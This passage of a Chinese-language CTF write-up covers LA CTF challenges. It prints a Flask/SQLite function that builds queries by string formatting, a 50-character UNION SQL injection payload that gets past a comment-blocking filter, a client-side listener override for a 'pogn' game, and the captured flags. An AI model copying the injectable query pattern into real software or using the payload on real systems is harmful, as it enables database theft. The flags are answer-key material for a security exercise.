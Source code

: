 ```python
    return render_template("results.html", users = roommates, name=name)
    

def get_matching_roommates(prefs: dict[str, str]):
    if len(prefs) == 0:
        return []
    query = """
    select * from users where {} LIMIT 25;
    """.format(
        " AND ".join(["{} = '{}'".format(k, v) for k, v in prefs.items()])
    )
    print(query)
    conn = sqlite3.connect('file:data.sqlite?mode=ro', uri=True)
    cursor = conn.cursor()
    cursor.execute(query)
    r = cursor.fetchall()
    cursor.close()
    return r
```

這題有明顯的 sqli，但是要繞 waf，長度不能超過 50 且不能含有 `--` 或 `/*` 這種註解字串

由於不能有註解，因此必須要用 `'` 來結尾掉

而以下的 payload 恰巧 50 個字元，隨便塞在一個不是 `name` 的選項即可

```
' union select 1,flag,1,1,1,1 from flag where ''='
```

`lactf{us3_s4n1t1z3d_1npu7!!!}`

### pogn

在瀏覽器前端將 `mousemove` 的 eventlistener 覆蓋成下面這樣

```javascript
window.addEventListener('mousemove', (e) => {
  moved = true;
  const x = e.clientX;
  const y = e.clientY;
  userPaddle.style = `--x: ${x}px; --y: ${y}px`;
  userPos = viewportToServer([ x, y ]);
  v = [1e-307, 1e-307];
  p_x = x;
  p_y = y;
});
```

主要是改球移動的 vector 但我不知道發生什麼事，可能是後端數值計算上炸掉ㄌ

`lactf{7_supp0s3_y0u_g0t_b3773r_NaNaNaN}`

### new-housing-portal
